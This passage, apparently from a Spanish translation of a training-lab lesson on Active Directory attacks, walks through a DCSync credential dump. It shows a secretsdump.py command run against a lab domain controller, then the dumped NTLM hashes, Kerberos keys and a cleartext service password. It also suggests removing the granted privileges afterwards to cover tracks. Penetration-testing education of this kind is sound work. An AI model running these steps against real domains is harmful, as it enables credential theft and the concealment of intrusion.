 ```powershell-session
```

Si tuviéramos ciertos derechos sobre el usuario (como[Writeacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), también podríamos agregar este privilegio a un usuario bajo nuestro control, ejecutar el ataque DCSYNC y luego eliminar los privilegios para intentar cubrir nuestras pistas. La replicación de DCSYNC se puede realizar utilizando herramientas como Mimikatz, Invoke-DCSYNC y SecretSdump.py de Impacket. Veamos algunos ejemplos rápidos.

Ejecución de la herramienta como a continuación escribirá todos los hash en archivos con el prefijo`inlanefreight_hashes`. El`-just-dc`Flag le dice a la herramienta que extraiga las teclas NTLM Hashes y Kerberos del archivo NTDS.

#### Extracción de las teclas de hashes y kerberos de NTLM usando secretsdump.py

  Dcsync

```shell-session
xnoxos@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```
